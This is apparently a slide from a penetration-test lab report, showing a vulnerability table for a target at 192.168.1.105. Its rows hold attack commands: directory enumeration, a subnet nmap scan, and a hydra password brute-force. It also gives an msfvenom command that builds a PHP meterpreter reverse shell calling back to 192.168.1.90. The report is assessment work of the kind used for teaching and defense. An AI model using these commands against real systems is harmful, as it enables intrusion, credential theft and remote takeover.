

# Vulnerability Assessment
The assessment uncovered the following critical vulnerabilities in the target:
| Vulnerability | Description | Impact |
| --- | --- | --- |
| Apache HTTP Server CVE-2021-41773 | # Dirb http://192.168.1.105 (192.168.1.105/company\_folders/secret\_folder) | Found hidden directories and login files with exact instructions to access the VSI server were found in plain text. |
| Numerous open ports (lack of principle of least privilege) | # Nmap -sT -sV 192.168.1.0/24 | Discovery of exposed ports that could be exploited and hidden server. |
| Brute Force Attack - Password Crack | # hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /wordlists/common.txt | Gained direct access to an employee's login credentials and in addition we gained the CEO’s password hash, giving us access to their account as well. |
| Open access to directories on web server | dav://192.168.1.105/webdav/ | Permission to write and upload files, including malicious payloads to the company server. |
| Apache HTTP Server CVE-2021-41773 (port 80 open for scans) Meterpreter Reverse TCP Host Connection | # Msfvenom -p php/meterpreter/reverse\_tcp lhost=192.168.1.90 lport=80 >> shell.php | The vulnerability can be used for remote code execution when mod\_cgi is enabled. An attacker can execute arbitrary code. |